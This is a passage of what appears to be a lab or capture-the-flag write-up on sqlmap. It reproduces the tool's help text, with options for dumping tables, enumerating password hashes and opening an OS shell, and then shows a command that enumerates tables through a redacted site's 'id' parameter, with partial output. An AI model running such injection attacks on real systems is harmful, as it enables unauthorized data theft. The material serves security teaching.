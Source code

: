 ```
    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    These options do not fit into any other category

    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users

[!] to see full list of options run with '-hh'
```
I like to list the tables using the command `sqlmap -u "http://________/index.html?page=blog&title=Blog&id=" -p id --tables`, meaning we want to enumerate the `id` attack point / query and we want to list the tables. This will give us the output of:
```
Database: mysql
[17 tables]
+---------------------------------------+
| db                                    |
```